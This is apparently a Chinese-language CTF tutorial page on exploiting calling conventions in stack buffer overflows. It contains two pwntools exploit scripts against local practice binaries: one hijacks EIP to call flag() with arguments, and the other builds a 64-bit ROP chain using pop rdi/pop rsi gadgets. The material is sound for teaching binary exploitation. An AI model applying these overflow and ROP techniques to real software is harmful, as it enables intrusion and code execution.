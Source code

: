 ```yaml
---
title: '攻击调用约定'
date: '2023-08-11'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '利用调用约定'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

LINK

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<center>
  <Image alt="origin" src="https://s11.ax1x.com/2024/02/09/pF3MZAe.png" width={406} height={62} />
</center>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<center>
  <Image alt="new" src="https://s11.ax1x.com/2024/02/09/pF3Ma3n.png" width={535} height={62} />
</center>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

payload = b'A' * 52         # Padding 到 EIP
payload += p32(0x080491c7)  # flag() 的地址
payload += p32(0x0)         # 避免异常
payload += p32(0xdeadc0de)  # 第一个参数
payload += p32(0xc0ded00d)  # 第二个参数

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为 `rdi` 和 `rsi`，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

payload = b'A' * 56          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(0xdeadc0de)   # 进入 rdi 的值 - 第一个参数
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0xc0ded00d)   # 进入 rsi 的值 - 第二个参数
payload += p64(0x0)          # 进入 r15 的值 - 避免异常
payload += p64(0x40116f)     # flag() 的地址
payload += p64(0x0)          # 避免异常

p.sendline(payload)

p.interactive()
```

<Note>
  在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。<br style={{ marginBottom: '0.5em' }} />通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。
</Note>

